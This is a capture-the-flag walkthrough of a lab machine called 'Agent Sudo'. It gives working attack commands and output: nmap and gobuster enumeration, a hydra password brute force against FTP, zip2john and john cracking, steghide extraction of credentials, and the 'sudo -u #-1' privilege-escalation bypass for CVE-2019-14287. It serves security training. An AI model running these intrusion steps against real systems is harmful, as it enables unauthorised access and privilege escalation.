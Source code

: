 # Agent Sudo

You found a secret server located under the deep sea.  
Your task is to hack inside the server and reveal the truth.

#### Task 2: [Enumerate](##Enumerate)
### Task 3: Hash cracking and [brute-force](#bruteforce)

### Task 4: Capture the user flag  
### Task 5: Privilege escalation


##  Enumerate
### nmap

### ip = 10.10.55.182
```sh 
nmap -sV -sC -v 10.10.224.246
```

```sh
Scanning 10.10.224.246 [1000 ports]
Discovered open port 22/tcp on 10.10.224.246
Discovered open port 21/tcp on 10.10.224.246
Discovered open port 80/tcp on 10.10.224.246

21/tcp  open     ftp            vsftpd 3.0.3

22/tcp  open     ssh            OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 ef:1f:5d:04:d4:77:95:06:60:72:ec:f0:58:f2:cc:07 (RSA)
|   256 5e:02:d1:9a:c4:e7:43:06:62:c1:9e:25:84:8a:e7:ea (ECDSA)
|_  256 2d:00:5c:b9:fd:a8:c8:d8:80:e3:92:4f:8b:4f:18:e2 (ED25519)

80/tcp  open     http           Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Annoucement
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS

902/tcp filtered iss-realsecure

Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

```

### Http_80

 **ip**  `10.10.55.182`

**To Do List**  
- run gobuster
- surf the web  
- view source code  
- robots.txt  
- gobuster  

```sh
gobuster dir -u http://10.10.55.182 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```
### Result
Nothing much 

### surf the web

![robots](/assets/images/Agent_sudo/Pasted%20image%2020241016101306.png)

Let's try spoofing as C and get the same URL with curl.  
-A allows us to spoof the user agent and -L follows any redirects.

![robots](/assets/images/Agent_sudo/Pasted%20image%2020241016101415.png)

Now we have a user `chris` but not sure it's for ssh or ftp.

### ftp-21

# bruteforce
```sh
hydra -L users.txt -P passwords.txt <IP> ftp 
# hydra -l chris -P /usr/share/wordlists/rockyou.txt 10.10.55.182 ftp
```

![robots](/assets/images/Agent_sudo/Pasted%20image%2020241016101444.png)

## Result
ftp details  
- user name: chris  
- password: crystal  
log in!!!
```sh
ftp chris@10.10.55.182 
```

![robots](/assets/images/Agent_sudo/Pasted%20image%2020241016101527.png)


we got the file, concatenate it:  
![robots](/assets/images/Agent_sudo/Pasted%20image%2020241016101543.png)


Will have to go back and get the images. We run binwalk on the png file which is the most likely to contain some hidden files.

We get these three files:
i
- 365  
- 365.zlib  
- 8702.zip  
- To_agentR.txt  

The zip file is encrypted. We can use john to crack the password:

```sh
zip2john 8702.zip > forjohn
john forjohn.txt
```

![robots](/assets/images/Agent_sudo/Pasted%20image%2020241016101614.png)

Password = alien  
Unzip the files. 
 
You may get errors extracting the files using unzip, if so, use 7z e `zipfile`
```sh
 7z e 8702.zip
 ```  

Use `CyberChef` to decode  
`QXJlYTUx` = `Area51` = password for `steg`.  
We can now use `steghide` on the image that we never used.
```sh
steghide info cute-alien.jpg 
steghide extract -sf cute-alien.jpg 
cat message.txt
```

![robots](/assets/images/Agent_sudo/Pasted%20image%2020241023204845.png)


### Details
With these details and the unused port (22 = ssh), we can try logging in.

Details 
- username: `james`
- password: `hackerrules!`

```sh
 ssh james@10.10.55.182 
# password = hackerrules!
```
![robots](/assets/images/Agent_sudo/Pasted%20image%2020241016101901.png)

# Privilege escalation
Run sudo -l  
![robots](/assets/images/Agent_sudo/Pasted%20image%2020241016101951.png)

Google search for the exploit: CVE:2019-14287  
In the exploit page, we get:  
```sh
 'sudo -u #-1 /bin/bash'
 #Read the root flag. 
```
![robots](/assets/images/Agent_sudo/Pasted%20image%2020241016102023.png)

